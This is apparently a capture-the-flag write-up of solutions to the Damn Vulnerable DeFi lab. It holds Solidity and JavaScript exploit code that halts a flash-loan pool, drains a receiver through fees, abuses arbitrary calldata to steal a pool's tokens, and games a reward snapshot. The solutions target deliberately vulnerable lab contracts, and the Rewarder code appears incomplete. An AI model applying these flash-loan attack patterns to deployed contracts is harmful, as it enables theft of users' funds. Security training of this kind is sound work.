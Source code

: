 # DamnVulnerableDefi

## Challenge #1 - Unstoppable 

To stop the pool from offering flash loans the assert statement in the flashloan function needs to be exploited. This can be done via sending
tokens to the contract by not using the depositTOken function. This way ```poolBlanace``` will never be equal to ```balanceBefore```.

Add these lines to unstopabble.challenge.js:
```
 it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).transfer(this.pool.address, 1);
    });
```

## Challenge #2 - Naive receiver

To drain all ETH funds from the user's contract , the contract must borrow a flash loan 10 times so that it has to pay a fee of 1ETH everytime.
SInce there's no restriction on the flashLoan function it can be called by anyone. Calling it 10 times does the job.

Add these lines to naive-receiver.challenge.js:
``` 
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        for (let i = 0; i < 10; i++) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address,0);
        }        
        
    });
```
## Challenge #3 - Truster

Create new contract _TrusterHack.sol_ 
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./TrusterLenderPool.sol";

contract TrusterHack  {

    function hack( address _pool, address _token, uint amount) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token);

        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)", address(this), amount
        );

        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool , msg.sender, token.balanceOf(_pool));
    }
}
```

truster.challenge.js : 
```
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const _TrusterHack = await ethers.getContractFactory('TrusterHack', deployer);
        const TrusterHackContract = await _TrusterHack.deploy();

        await TrusterHackContract.connect(attacker).hack(this.pool.address, this.token.address, TOKENS_IN_POOL);        
    });
```
## Challenge #5 - The rewarder
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./FlashLoanerPool.sol";
import "./TheRewarderPool.sol";


contract HackRewarder {

    IERC20 token;
    FlashLoanerPool pool;
    TheRewarderPool rewardPool;
    uint256 andhapaisa;

    constructor (address _pool, address _token, address _rewardPool) {
        
        pool = FlashLoanerPool(_pool);
        token = IERC20(_token);
        rewardPool = TheRewarderPool(_rewardPool);
        andhapaisa = token.balanceOf(address(pool));
    }

    function attack() public {
        pool.flashLoan(andhapaisa);
    }

    fallback() external {

        token.approve(address(rewardPool), andhapaisa);
        rewardPool.deposit(andhapaisa);
        rewardPool.withdraw(andhapaisa);
        token.transfer(address(pool),andhapaisa);
    }
}
```
